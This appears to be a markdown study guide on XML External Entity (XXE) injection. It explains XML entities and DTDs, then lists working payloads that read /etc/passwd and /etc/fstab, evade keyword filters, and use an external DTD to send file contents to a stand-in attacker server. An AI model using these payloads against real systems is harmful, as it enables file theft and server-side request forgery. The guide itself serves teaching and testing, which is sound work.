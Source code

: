 External XML Entities
=====================

## Overview

### XML

Extensible Markup Language is a way of structuring data similar to JSON which has overtaken XML in popularity and largely replaced it in general.

#### XML Structure && Syntax

```
<?xml version="1.0"?>
<Person>
	<Name>John Smith</Name>
	<Age>20</Age>
</Person>

```

+ Tags are case sensitive
+ "",'',<,> are illegal characters in XML due to the parser not knowing how to handel them

### Entities && The DTD

Entities operate like variables within the XML document where, once defined, they can be used anywhere throughout the document. XML entities live within a specific part of the XML document known as the DTD.


#### Document Type Definition (DTD)

```
<?xml version="1.0"?>
<!DOCTYPE Person [
	<!ENTITY name "John">
]>
<Person>
	<Name>&name;</Name>
	<Age>20</Age>
</Person>
```

##### General Entities

```
<!ENTITY generalEntity "arbitrary">

<Usage>&generalEntity;</Usage>
```

##### Parameter Entities

```
<!ENTITY % outer "<!ENTITY inner 'parameter'>">

```

+ Only allowed inside the DTD
+ More flexiable and can allow the creation of an entity which contains another entity

##### Predefined

```
<specialChars>&#x3C;</specialChars>
```

+ Collections of special characters that might break the document normally

## XXE Types

### Inband

+ XML document is parsed 
+ The XML parser reads the document
+ The output of the parser is rendered/output in a response

### Error Based

+ No output
+ A kind of blind XXE injection

### Out of Band (OOB)

+ Entirely blind
+ No output
+ This requires an attack/observation server 
+ The server receives requests made from an entity in the injected payload
+ If the request comes back then the origin site is vulnerable to OOB XXE
+ This also leads to SSRF (Server Side Request Forgery)


## Attacks && Payloads

### Read System Files

```
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "/etc/passwd">
]>
<out>&payloadEntity;</out>
```
+ Here the SYSTEM keyword retrieves arbitrary resources from a URI `/etc/passwd` to insert into the XML document
+ In this way we can achieve arbitrary read 

#### Include Entities Remotely

```
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "https://callback.free.beeceptor.com/test">
]>
<out>&payloadEntity;</out>
```

### External DTD Payloads

+ Because DTDs can be passed as a URI in a `SYSTEM` call they can be loaded externally by the XML parser

```
<?xml version="1.0"?>
<!DOCTYPE DTD [
	<!ENTITY % parameter_entity "<!ENTITY secondary_entity 'PwnFunction'>">
	%parameter_entity%
]>

<payload>&secondary_entity;</payload>
```

### Blind XXE Payloads Using External DTDs

#### External DTD (external_payload.dtd)

```
<!ENTITY % grabPasswd SYSTEM "file:///etc/passwd">
	<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker.server.com/?%grabPasswd;'>">
	%wrapper;
```

+ This will cause the parser to read the contents of `passwd` and store it in the grabPasswd parameter entity
+ This allows the usage of the parameter `grabPasswd` within the DTD
+ Another parameter entity `wrapper` is then created which points to the general entity `send` 
+ When the document is parsed the wrapper entity will spawn the `send` entity as a general entity legally via the external DTD
+ This will then send the contents of `grabPasswd` to the attack server 

#### XXE Payload
```
<?xml version="1.0"?>
<!DOCTYPE payload SYSTEM "http://attack.server.com/external_payload.dtd">
<payload>&send;</payload>
```

### Filter Evasion

#### External DTD 
```
<!ENTITY % p1 "fi">
<!ENTITY % p2 "le:///etc/pa">
<!ENTITY % p3 "sswd">
<!ENTITY % combined "<!ENTITY pwnFunc SYSTEM '%p1;%p2;%p3;'>">
```
#### Main XML

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE xxe [
    <!ELEMENT xxe ANY>
    <!ENTITY % a SYSTEM "http://termbin.com/mo28">
    %a;
    %all;
]>
<return>&pwnFunc;</return>
```
+ This will attempt to bypass filters for keywords such as `file` and `passwd`
+ Extra layers can be added until the filter stops detecting trigger words

### Exfiltration && Pitfalls

+ Since some system files that an attacker may attempt to exfiltrate contain xml syntactic characters like `<,>` a work around must be implemented in order to read these files


#### CDATA

+ The character data syntax, `<![CDATA[ <text> ]]` is a way of telling the XML parser to ignore syntactic characters that may arise within this tag
+ Consider its usage in a external DTD payload bellow

```
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
```

+ This leads to the creation of a wrapper with the three parameters desired